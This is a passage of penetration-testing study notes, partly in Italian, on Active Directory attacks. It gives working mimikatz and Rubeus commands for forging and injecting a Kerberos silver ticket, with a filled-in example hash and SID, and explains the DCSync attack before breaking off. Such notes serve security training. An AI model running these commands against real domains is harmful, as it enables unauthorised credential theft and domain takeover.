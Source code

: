 - Domain SID:

```bash
whoami /user

#oppure tramite powershell
Get-ADdomain
```

- Creating the _silver ticket_:

```bash
kerberos::golden /$SID_NUMBER /domain:$DOMAIN_NAME /ptt /target:$COMPUTER_TARGET $/service:$SERVICE_NAME /rc4:$NTLM_HASH /user:$USER_NAME

# esempio
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```

- Command to show the list of Kerberos tickets to confirm that the _silver ticket_ has been created and sent to the current session:

```bash
klist
```

- Ticket injection

```bash
mimikatz.exe "kerberos::ptt <TICKET_FILE>"
.\Rubeus.exe ptt /ticket:<TICKET_FILE>
```


## 22.2.5. Domain Controller Synchronization (DCSync)

In large environments, domains rely on more than one domain controller to provide redundancy. The _Directory Replication Service_ (DRS) Remote Protocol uses _replication_ to synchronize these redundant domain controllers. A domain controller could request an update for a specific object using the _IDL_DRSGetNCChanges_ API.

Fortunately (for an attacker), the domain controller receiving an update request does not check whether the sender is a known domain controller, it only checks whether the associated SID has the correct privileges:
- _Replicate directory changes_
- _Replicate all directory changes_
- _Replicate directory changes in the filtered set_

By default, members of the _Domain Admins_, _Enterprise Admins_, and _Administrators_ groups have these privileges assigned. So if you gain access to an account that is part of one of these three groups you can perform a _dcsync_ attack where you impersonate a domain controller, enabling the ability to request any user credentials from the domain.

Again there are two ways to perform this attack:
1) From kali
2) From windows
